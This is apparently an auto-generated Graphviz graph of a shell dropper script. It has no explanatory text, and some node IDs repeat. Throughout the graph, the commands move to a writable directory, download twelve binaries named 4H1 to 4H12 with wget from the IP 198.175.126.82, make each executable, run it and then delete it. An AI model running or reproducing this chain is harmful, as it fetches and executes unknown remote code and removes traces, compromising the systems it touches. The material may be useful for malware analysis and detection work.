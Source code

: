 digraph {
198 [label="cd /tmp "];
198 -> 198
200 [label="cd /var/run "];
200 -> 202 [label="||,"];
202 [label="cd /mnt "];
202 -> 204 [label="||,"];
204 [label="cd /root "];
204 -> 206 [label="||,"];
206 [label="cd / "];
206 -> 10 [label="||,"];
10 [label="wget http://198.175.126.82/4H1 "];
10 -> 12 [label=";,"];
12 [label="chmod +x 4H1 "];
12 -> 14 [label=";,"];
14 [label="./4H1 "];
14 -> 16 [label=";,"];
16 [label="rm -rf 4H1 "];
16 -> 198 [label=";,"];
198 [label="cd /tmp "];
198 -> 198
200 [label="cd /var/run "];
200 -> 202 [label="||,"];
202 [label="cd /mnt "];
202 -> 204 [label="||,"];
204 [label="cd /root "];
204 -> 206 [label="||,"];
206 [label="cd / "];
206 -> 28 [label="||,"];
28 [label="wget http://198.175.126.82/4H2 "];
28 -> 30 [label=";,"];
30 [label="chmod +x 4H2 "];
30 -> 32 [label=";,"];
32 [label="./4H2 "];
32 -> 34 [label=";,"];
34 [label="rm -rf 4H2 "];
34 -> 198 [label=";,"];
198 [label="cd /tmp "];
198 -> 198
200 [label="cd /var/run "];
200 -> 202 [label="||,"];
202 [label="cd /mnt "];
202 -> 204 [label="||,"];
204 [label="cd /root "];
204 -> 206 [label="||,"];
206 [label="cd / "];
206 -> 46 [label="||,"];
46 [label="wget http://198.175.126.82/4H3 "];
46 -> 48 [label=";,"];
48 [label="chmod +x 4H3 "];
48 -> 50 [label=";,"];
50 [label="./4H3 "];
50 -> 52 [label=";,"];
52 [label="rm -rf 4H3 "];
52 -> 198 [label=";,"];
198 [label="cd /tmp "];
198 -> 198
200 [label="cd /var/run "];
200 -> 202 [label="||,"];
202 [label="cd /mnt "];
202 -> 204 [label="||,"];
204 [label="cd /root "];
204 -> 206 [label="||,"];
206 [label="cd / "];
206 -> 64 [label="||,"];
64 [label="wget http://198.175.126.82/4H4 "];
64 -> 66 [label=";,"];
66 [label="chmod +x 4H4 "];
66 -> 68 [label=";,"];
68 [label="./4H4 "];
68 -> 70 [label=";,"];
70 [label="rm -rf 4H4 "];
70 -> 198 [label=";,"];
198 [label="cd /tmp "];
198 -> 198
200 [label="cd /var/run "];
200 -> 202 [label="||,"];
202 [label="cd /mnt "];
202 -> 204 [label="||,"];
204 [label="cd /root "];
204 -> 206 [label="||,"];
206 [label="cd / "];
206 -> 82 [label="||,"];
82 [label="wget http://198.175.126.82/4H5 "];
82 -> 84 [label=";,"];
84 [label="chmod +x 4H5 "];
84 -> 86 [label=";,"];
86 [label="./4H5 "];
86 -> 88 [label=";,"];
88 [label="rm -rf 4H5 "];
88 -> 198 [label=";,"];
198 [label="cd /tmp "];
198 -> 198
200 [label="cd /var/run "];
200 -> 202 [label="||,"];
202 [label="cd /mnt "];
202 -> 204 [label="||,"];
204 [label="cd /root "];
204 -> 206 [label="||,"];
206 [label="cd / "];
206 -> 100 [label="||,"];
100 [label="wget http://198.175.126.82/4H6 "];
100 -> 102 [label=";,"];
102 [label="chmod +x 4H6 "];
102 -> 104 [label=";,"];
104 [label="./4H6 "];
104 -> 106 [label=";,"];
106 [label="rm -rf 4H6 "];
106 -> 198 [label=";,"];
198 [label="cd /tmp "];
198 -> 198
200 [label="cd /var/run "];
200 -> 202 [label="||,"];
202 [label="cd /mnt "];
202 -> 204 [label="||,"];
204 [label="cd /root "];
204 -> 206 [label="||,"];
206 [label="cd / "];
206 -> 118 [label="||,"];
118 [label="wget http://198.175.126.82/4H7 "];
118 -> 120 [label=";,"];
120 [label="chmod +x 4H7 "];
120 -> 122 [label=";,"];
122 [label="./4H7 "];
122 -> 124 [label=";,"];
124 [label="rm -rf 4H7 "];
124 -> 198 [label=";,"];
198 [label="cd /tmp "];
198 -> 198
200 [label="cd /var/run "];
200 -> 202 [label="||,"];
202 [label="cd /mnt "];
202 -> 204 [label="||,"];
204 [label="cd /root "];
204 -> 206 [label="||,"];
206 [label="cd / "];
206 -> 136 [label="||,"];
136 [label="wget http://198.175.126.82/4H8 "];
136 -> 138 [label=";,"];
138 [label="chmod +x 4H8 "];
138 -> 140 [label=";,"];
140 [label="./4H8 "];
140 -> 142 [label=";,"];
142 [label="rm -rf 4H8 "];
142 -> 198 [label=";,"];
198 [label="cd /tmp "];
198 -> 198
200 [label="cd /var/run "];
200 -> 202 [label="||,"];
202 [label="cd /mnt "];
202 -> 204 [label="||,"];
204 [label="cd /root "];
204 -> 206 [label="||,"];
206 [label="cd / "];
206 -> 154 [label="||,"];
154 [label="wget http://198.175.126.82/4H9 "];
154 -> 156 [label=";,"];
156 [label="chmod +x 4H9 "];
156 -> 158 [label=";,"];
158 [label="./4H9 "];
158 -> 160 [label=";,"];
160 [label="rm -rf 4H9 "];
160 -> 198 [label=";,"];
198 [label="cd /tmp "];
198 -> 198
200 [label="cd /var/run "];
200 -> 202 [label="||,"];
202 [label="cd /mnt "];
202 -> 204 [label="||,"];
204 [label="cd /root "];
204 -> 206 [label="||,"];
206 [label="cd / "];
206 -> 172 [label="||,"];
172 [label="wget http://198.175.126.82/4H10 "];
172 -> 174 [label=";,"];
174 [label="chmod +x 4H10 "];
174 -> 176 [label=";,"];
176 [label="./4H10 "];
176 -> 178 [label=";,"];
178 [label="rm -rf 4H10 "];
178 -> 198 [label=";,"];
198 [label="cd /tmp "];
198 -> 198
200 [label="cd /var/run "];
200 -> 202 [label="||,"];
202 [label="cd /mnt "];
202 -> 204 [label="||,"];
204 [label="cd /root "];
204 -> 206 [label="||,"];
206 [label="cd / "];
206 -> 190 [label="||,"];
190 [label="wget http://198.175.126.82/4H11 "];
190 -> 192 [label=";,"];
192 [label="chmod +x 4H11 "];
192 -> 194 [label=";,"];
194 [label="./4H11 "];
194 -> 196 [label=";,"];
196 [label="rm -rf 4H11 "];
196 -> 198 [label=";,"];
198 [label="cd /tmp "];
198 -> 198
200 [label="cd /var/run "];
200 -> 202 [label="||,"];
202 [label="cd /mnt "];
202 -> 204 [label="||,"];
204 [label="cd /root "];
204 -> 206 [label="||,"];
206 [label="cd / "];
206 -> 208 [label="||,"];
208 [label="wget http://198.175.126.82/4H12 "];
208 -> 210 [label=";,"];
210 [label="chmod +x 4H12 "];
210 -> 212 [label=";,"];
212 [label="./4H12 "];
212 -> 213 [label=";,"];
}
